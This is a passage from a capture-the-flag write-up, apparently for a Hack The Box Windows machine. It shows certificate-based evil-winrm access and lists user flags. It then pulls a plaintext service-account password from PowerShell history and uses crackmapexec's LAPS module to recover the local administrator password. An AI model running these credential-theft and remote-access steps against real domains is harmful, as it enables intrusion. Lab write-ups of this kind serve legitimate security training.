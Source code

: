- Using these parameters, we craft the following command:
	- `evil-winrm -c certout -S -k keyout -i 10.10.11.152 -u guest -p thuglegacy`
![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220509234831.png)

We are able to connect using the private key and certificate we gained from the .pfx file.

- Once we're on it, we can start navigating and enumerating everything:

   - `user.txt: 130c1c0f9a2a39552c8a2338604db563`

   - `user.txt: 52a1ac599a8c4965339e9d824ab7c1c1`

Now that we got the `user flags`, we need to focus on privesc to get the `system flag`.


**Privilege escalating using the system flag**

- I have looked through powershell history on the machine to find the following commands being saved in history:
```whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

The text `E3R$Q62^12p7PLlC%KWaxuaV` is being made into a secure string; leads us to believe this is the password ($p) trying to be applied.

- We can see the environment variables $p (password) and $c (credentials) being created, in which $c is taking arguments of 'svc_deploy' (presumably username) and $p (password).

**Used crackmapexec to connect to domain name controller, and make it leak laps**

- Attempted to connect through smb and ldap: `crackmapexec ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --kdcHost timelapse.htb -M laps`

	- We use the `--kdcHost` switch to indicate a kerberos domain controller host is attempted connection.
	- `-M` switch is used to specify the module that we will use with crackmap, which in this case is LAPS (Local Administrator Password Solution).
	- LAPS is a windows feature that automatically manages and backs up the password of a local admin account.

- ![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220511010731.png)

- Needed to configure default DNS resolution for 10.10.11.152 to timelapse.htb in /etc/hosts
-----
**Got local admin password from crackmapexec, now we need to escalate privileges and log into the administrator account** 

Got onto the machine with admin privileges using evilrm and the new password:
